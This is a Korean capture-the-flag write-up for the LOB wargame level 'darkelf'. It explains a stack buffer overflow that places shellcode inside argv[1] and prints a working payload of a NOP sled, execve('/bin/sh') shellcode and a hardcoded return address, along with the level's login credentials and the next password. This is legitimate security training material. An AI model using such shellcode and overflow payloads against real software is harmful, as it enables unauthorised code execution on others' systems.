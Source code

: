 # [LOB] darkelf Write-up

![](./picture/darkelf_1.JPG)

```
login : wolfman
Password : love eyuna
```

위의 계정으로 로그인하면 된다.

이번 문제의 소스코드는 다음과 같다.

![](./picture/darkelf_2.JPG)

환경변수, 버퍼를 초기화하고, argv[1]의 길이를 체크하기 때문에 RET 주소 뒤에 쉘코드를 넣는 방법을 사용할 수 없다. 하지만 버퍼만 초기화하고, argv[1]은 초기화하지 않는다. 따라서 argv[1] 앞 쪽, 즉 SFP 앞부분에 쉘코드를 넣고 리턴주소를 argv[1]의 시작 주소로 넣어주면 문제가 풀린다.

 ![](./picture/darkelf_3.JPG)

리턴할 때 오류가 생겨 core dump 가 발생했기 때문에 esp는 RET 아래(argc)를 가리키고 있을 것이다. 
 esp를 확인해보면 strcpy() 함수 때문에 0(NULL) 값으로 덮어씌워진 argc가 있고, 그 다음에 `0xbffffb24`가 argv 주소이다.  
 해당 주소로 가면 순서대로 argv[0], argv[1]이 있다. 

 ![](./picture/darkelf_4.JPG)

 `0xbffffc25`가 argv[1]의 주소이다. 인자로 넣어준 값들이 들어간 것을 확인해볼 수 있다.

 ```
 `python -c 'print "\x90"*19+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"+"\x25\xfc\xff\xbf"'`
```

페이로드는 위와 같다.

 ![](./picture/darkelf_5.JPG)

쉘을 땄고, 비밀번호는 **kernel crashed** 이다.
